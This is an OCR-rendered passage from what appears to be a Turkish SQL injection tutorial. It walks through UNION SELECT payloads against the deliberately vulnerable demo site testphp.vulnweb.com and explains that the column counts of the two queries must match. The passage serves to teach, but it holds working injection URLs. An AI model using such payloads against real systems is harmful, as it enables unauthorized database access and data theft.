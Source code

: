 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.049.jpeg)

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON  SELECT  1 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.050.png)

Burada UNION kullandığımız için sağ ve sol taraftaki sorgularımıda kolon sayılarımızın eşit olması gerekmektedir. Biz haberler tablosundaki kolon sayısını bilmemekteyiz. Burada da bilmekteyiz ki SELECT 1 ifadesi çalışmaktadır.

bu sefer bizleri şu şekilde bir sayfa karşılamaktadır:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON  SELECT  1![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.051.png)

![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.052.png)

Burada bir hata ile karşılaşmaktayız. Çünkü kolon sayılarımız farklı. Buradaki hatayı görmeyebilirdik. Biz referans noktamıza dönmemekteyiz şuan. Daha önce bizi karşılayan sonuca ulaşamamaktayız. Buradaki hata mesajları genellikle kapalı olur. Bu hatayı aşabilmek için kolon sayılarımızın eşit olması gerekmektedir.
